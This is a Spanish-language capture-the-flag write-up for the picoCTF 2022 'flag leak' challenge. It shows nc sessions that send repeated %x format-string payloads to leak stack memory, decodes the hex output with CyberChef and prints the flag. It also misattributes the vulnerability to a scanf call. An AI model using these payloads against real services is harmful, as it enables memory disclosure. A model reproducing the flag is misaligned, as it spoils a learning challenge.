 # flag leak - 2022




## Descripción
Story telling class 1/2
Additional details will be available after launching your challenge instance.

## Solución

- El código tienes lo siguiente:  `scanf("%127s", story)`tiene una vulnerabilidad de cadena de formato, donde la memoria se puede filtrar con `%x`:
``` bash
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ls    
vuln  vuln.c
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ls -la
total 28
drwxr-xr-x 2 kali kali  4096 may 17 23:00 .
drwxr-xr-x 4 kali kali  4096 may 17 23:00 ..
-rw-r--r-- 1 kali kali 15876 may 17 23:00 vuln
-rw-r--r-- 1 kali kali   947 may 17 23:00 vuln.c
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ nc saturn.picoctf.net 52647
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%X%x
Here's a story - 
ffd42ac0ffd42ae080493467825782578257825782578257825782578255825FFFFFF000
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ nc saturn.picoctf.net 52647
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story - 
ffb242b0ffb242d08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f665f6b63633130667d653833fbad200033905d000f7f03990804c00080494100804c000ffb2439880494182ffb24444ffb244500ffb243b000f7cf9ed5
                                                                        ┌──(kali㉿kali)-[~/Descargas/BE]
└─$ nc saturn.picoctf.net 52647
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%
Here's a story - 
ff894d60ff894d808049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f665f6b63633130667d653833fbad200016f9ae000f7f2b990804c00080494100804c000ff894e4880494182ff894ef4ff894f000ff894e6000f7d21ed5
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ 

``` 


- Con ayuda de [CyberChef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=NmY2MzY5NzA3YjQ2NTQ0MzZiMzQzMzRjNWY2NzZlMzE2NzM0NmM0NjY2NjYzMDVmMzQ3NDUzNWY2NjVmNmI2MzYzMzEzMDY2N2Q2NTM4MzNmYmFkMjAwMDMzOTA1ZDAwMGY3ZjAzOTkwODA0YzAwMDgwNDk0MTAwODA0YzAwMGZmYjI0Mzk4ODA0OTQxODJmZmIyNDQ0NGZmYjI0NDUwMGZmYjI0M2IwMDBmN2NmOWVkNQoK) encontramos la bandera conviertieno de ascii a hexa:
![[Pasted image 20230518001431.png]]

## Bandera 
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}

## Referencias
- [CyberChef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=NmY2MzY5NzA3YjQ2NTQ0MzZiMzQzMzRjNWY2NzZlMzE2NzM0NmM0NjY2NjYzMDVmMzQ3NDUzNWY2NjVmNmI2MzYzMzEzMDY2N2Q2NTM4MzNmYmFkMjAwMDMzOTA1ZDAwMGY3ZjAzOTkwODA0YzAwMDgwNDk0MTAwODA0YzAwMGZmYjI0Mzk4ODA0OTQxODJmZmIyNDQ0NGZmYjI0NDUwMGZmYjI0M2IwMDBmN2NmOWVkNQoK)
